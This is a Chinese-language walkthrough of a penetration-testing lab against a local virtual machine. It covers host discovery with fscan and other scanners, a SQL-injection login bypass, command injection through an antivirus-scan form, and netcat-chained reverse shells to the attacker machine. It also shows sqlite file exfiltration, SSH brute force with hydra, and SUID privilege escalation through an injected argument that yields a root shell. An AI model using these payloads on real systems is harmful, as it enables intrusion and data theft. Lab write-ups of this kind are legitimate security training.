

fscan信息侦查 | sql注入 | 命令注入 | nc串联反弹shell | 信息收集 | ssh爆破 | 代码审计 | suid提权
1. 环境
导入Virtualbox
设置网络让攻击机和靶机互通
攻击机kali: 192.168.0.10
2. 主机发现
使用Ladon
1
2
3
4sudo ./LadonLinux 192.168.0.0/24 IcmpScan
#使用ping不需要超级管理员权限
./LadonLinux 192.168.0.0/24 PingScan结果不太准，不稳定。ladon也支持
使用arp-scan
1
sudo arp-scan -l
没有发现
arping（是linux机器都会有）
1
for i in $(seq 1 254); do sudo arping -c 2 192.168.0.$i; done
fscan
1
2
3
4sudo ./fscan_darwin -h 192.168.0.0/24
#使用ping不需要超级管理员
./fscan_darwin -h 192.168.0.0/24 -ping
通过fscan发现
1 | [shadowflow@ShadowOS recon]$ sudo ./fscan_darwin -h 192.168.0.0/24 |
192.168.0.103开放了22端口和8080端口，这就是我们的靶机了
3. web入侵
输入框要求我们输入账号密码，要绕过的话有两种方式，sql注入或者爆破

3.1 SQL注入
使用特殊字符fuzz，发现"导致异常，排查

很明显将"拼接进了sql语句
那么构造aa" or 1=1--+万能密码就登场成功了
这是一个杀毒扫描程序，选择文件进行扫描。
猜测服务器上执行的是xxAVscan xxxfile，那么也许我们可以使用|进行命令拼接从而执行命令
3.2 命令注入
拼接命令执行，结果如下
1 | uid=1001(scanner) gid=1001(scanner) groups=1001(scanner) |
既然可以执行命令我们就可以反弹shell
4. 远程控制
上面我们已经看到有netcat，尝试使用nc反弹shell，查看位置
1 | netcat | which nc |
使用nc反弹shell
1 | #尝试poc |
上述没有收到shell，因为有的nc版本没有-e参数
直接使用nc连接证明是否存在nc
1 | netcat | nc 192.168.0.10 4444 |
使用nc串联
1 | #kali监听两个端口,一个作为输入，一个作为接收，3333输入，4444接收 |
现在我们在3333端口执行命令，执行结果会在4444端口显示。
现在我们完成了远程控制
5. 信息收集
执行ls命令，发现如下几个文件
1 | app.py |
获取sqlite文件
1 | #kali接收数据 |
这种方式获取到文件后是没有提示的
在kali 机器上读取sqlite文件
1 | 进入sqlite |
发现有几个密码
1 | myinvitecode123 |
6. 爆破账号
已经有了账号，现在获取可以登录的用户
执行命令
1 | cat /etc/passwd | grep /bin/bash |
结果
1 | root:x:0:0:root:/root:/bin/bash |
构造字典如下
user.txt
1 | root |
pass.txt
1 | myinvitecode123 |
爆破ssh服务
1 | hydra -L user.txt -P pass.txt ssh://192.168.0.103 |
爆破失败
7. suid提权
查看suid的二进制文件
1 | find / -perm -u=s -type f 2>/dev/null |
结果是没有常见的提权的可执行程序的，但是有一个文件值得注意
1 | /home/scanner/update_cloudav |
于是我们看一下scanner目录
1 | ls -l /home/scanner/ |
结果如下
1 | drwxrwxr-x 4 scanner scanner 4096 Oct 24 2018 cloudav_app |
发现update_cloudav的源码，审计一下
1 |
|
该程序调用了freshclam，并且可以指定一个参数，那么我们将参数设置为反弹shell的命令或许可以成功
执行如下命令，执行前kali再监听两个端口
1 | /home/scanner/update_cloudav "a|nc 192.168.0.10 6666 | /bin/bash | nc 192.168.0.10 7777" |
收到shell
1 | uid=0(root) gid=0(root) groups=0(root),1001(scanner) |
至此打靶结束